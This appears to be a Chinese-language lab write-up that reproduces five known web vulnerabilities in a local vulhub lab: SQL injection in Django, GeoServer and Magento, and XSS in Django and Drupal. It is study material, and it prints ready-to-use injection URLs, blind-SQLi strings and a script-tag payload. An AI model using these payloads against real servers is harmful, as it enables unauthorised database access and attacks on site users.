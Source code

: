 ### django  CVE-2019-14234漏洞 SQL注入复现

Django是一个高级的Python Web框架，支持快速开发和简洁实用的设计。

​	通过离线传输镜像搭建靶场环境

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403130020796.png" alt="image-20250403130020796" style="zoom:50%;" />

首先使用以下凭据登录Django管理界面：`http://192.168.117.131:8000/admin/`

- 用户名：admin
- 密码：a123123123

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403130545198.png" alt="image-20250403130545198" style="zoom: 80%;" />

导航到Collection模型的列表视图:`http://192.168.117.131:8000/admin/vuln/collection/`

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403130747629.png" alt="image-20250403130747629" style="zoom: 67%;" />

要利用SQL注入漏洞，在GET参数中添加`detail__a'b=123`，其中`detail`是JSONField字段：

`http://192.168.117.131:8000/admin/vuln/collection/?detail__a%27b=123`

可见，单引号已注入成功，SQL语句报错：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403131213269.png" alt="image-20250403131213269" style="zoom:50%;" />





### GeoServer （CVE-2023-25157）SQL 注入漏洞复现

​	GeoServer是OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作，通过 GeoServer 可以比较容易的在用户之间迅速共享空间地理信息。

**搭建靶场：**

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403132634772.png" alt="image-20250403132634772" style="zoom:50%;" />

在进行注入之前，首先要获取地理图层列表信息，这是sql注入payload中的一个必要参数，

访问以下url获取：`http://192.168.117.131:8080/geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities`

<u>**<Name>**</u>标签中的信息，就是地理图层列表。这里选择`vulhub:example`作为地理图层列表信息

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403133827658.png" alt="image-20250403133827658" style="zoom: 67%;" />

将上一步获取的typeName的name属性值拼接到url中，构成url如下:

`http://192.168.117.131:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&maxFeatures=1&outputFormat=json`

![image-20250403134009005](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403134009005.png)

**构造SQL 注入**

Feature type (table) name: vulhub:example

One of attribute from feature type: name

利用这些已知参数，拼接成payload:`http://192.168.117.131:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name,%27x%27%27)%20=%20true%20and%201=(SELECT%20CAST%20((SELECT%20version())%20AS%20integer))%20%E2%80%93%20%27)%20=%20true`

![image-20250403134441838](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403134441838.png)

成功获取到数据库版本号。







### magento 2.2-sqli漏洞复现

​	Magento是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

​	其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

环境启动后，访问`http://192.168.117.131:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403135403738.png" alt="image-20250403135403738" style="zoom:50%;" />

分别访问链接，再通过wireshark抓包，

- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-`
- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-`

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同，通过改变OR的条件，即可实现SQL BOOL型盲注。









### Django调试页面跨站脚本漏洞（CVE-2017-12794）

Django 1.11.5和1.10.8版本之前的调试错误页面中存在跨站脚本（XSS）漏洞。当启用DEBUG模式时，错误页面可能会通过未经转义的HTML错误消息暴露敏感信息。

该漏洞在数据库错误发生并且其详细信息显示在调试页面时触发。数据库的错误消息在模板渲染之前没有被正确转义。



靶场搭建完成后通过`http://192.168.117.131:8080`访问是一个不可访问界面，

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142337062.png" alt="image-20250403142337062" style="zoom:50%;" />

创建一个用户，访问以下URL创建一个包含JavaScript代码的恶意用户名：`http://192.168.117.131:8000/create_user/?username=<script>alert(1)</script>`

第一次请求将成功创建用户，

![image-20250403142656764](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142656764.png)

然后，再次访问相同的URL以触发数据库唯一约束错误。错误页面将在错误消息中包含未经转义的用户名：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403142746766.png" alt="image-20250403142746766" style="zoom: 67%;" />

用户名中的JavaScript代码将在浏览器中执行，证实了XSS漏洞的存在。攻击者可以利用此漏洞在调试页面的上下文中执行任意JavaScript代码，可能导致会话劫持或其他客户端攻击。







### Drupal文件上传导致跨站脚本执行（CVE-2019-6341）

​	Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

​	在Drupal 7.x < 7.65, Drupal 8.x < 8.5.14 和 8.6.x < 8.6.13 中，由于文件模块或子系统中对文件上传处理不当，导致攻击者可以上传一个没有扩展名的文件，该文件表面上是一个图片，但实际包含了嵌入JavaScript的HTML代码。当其他用户访问该文件的链接时，XSS代码将被执行。

靶场搭建完成后，访问`http://192.168.117.131:8080/`将会看到Drupal的安装页面。按照默认配置完成安装步骤。由于环境中没有MySQL，可以选择SQLite作为数据库。

网站初始界面：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403143808828.png" alt="image-20250403143808828" style="zoom: 50%;" />

​	该漏洞需要利用drupal文件模块上传文件的漏洞，伪造一个图片文件上传，文件的内容表面上是图片实际是一段HTML代码，内嵌JS，这样其他用户在访问这个链接时，就可能触发XSS漏洞。

​	上传文件操作：`php blog-poc.php 192.168.117.131:8080`

![image-20250403144442571](C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403144442571.png)

待上传成功后，访问图片位置即可触发XSS漏洞：

<img src="C:\Users\25101\AppData\Roaming\Typora\typora-user-images\image-20250403145032092.png" alt="image-20250403145032092" style="zoom: 80%;" />

攻击未成功，因为火狐浏览器自带部分过滤 XSS 功能，